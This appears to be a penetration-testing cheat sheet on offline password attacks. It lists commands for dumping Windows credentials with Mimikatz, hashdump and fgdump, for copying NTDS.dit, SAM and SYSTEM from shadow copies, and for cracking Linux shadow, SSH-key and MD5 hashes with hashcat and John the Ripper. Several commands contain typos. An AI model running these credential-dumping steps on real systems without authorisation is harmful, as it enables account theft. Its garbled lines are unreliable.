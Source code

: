 # Offline Attack

### Extracting Password Hashes from Windows

#### fgdump

Run fgdump to dump local hash

> `fgdump.exe`

#### Meterpreter's Hashdump

> `meterpreter > hashdump`

#### Mimikatz
> `PS C:\temp\mimikatz> .\mimikatz`

>  `mimikatz # privilege::debug`

>  `mimikatz # sekurlsa::logonpasswords`


#### Volume Shadow Copy Services to copy ntds.dit


> `cscript vssown.vbs /start`

> `cscript vssown.vbs /create`

> `copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy\[X\]\Windows\NTDS\NTDS.dit c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[X\]\Windows\System32\config\SYSTEM c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[X\]\Windows\System32\SAM c:\`

### Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

### Cracking the Password

#### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

#### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

> `unshadow /etc/passwd /etc/shadow >> crackme.txt`

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme.txt--wordlist=rockyou.txt`

Convert an encrypted SSH key to a format readable by John

> `ssh2john encrypted-key >> crackme-ssh`

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme-ssh --wordlist=rockyou.txt`

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

> `john--format=md5 hashes --wordlist=rockyou.txt`

John configuration file

* Linux
  > john.conf
* Windows 
  > john.ini

john.pot file is where the cracking results stored.

> `john --show [password_file]`

john.rec is the recovery file in the event of a crash. To restore cracking

> `john --restore`



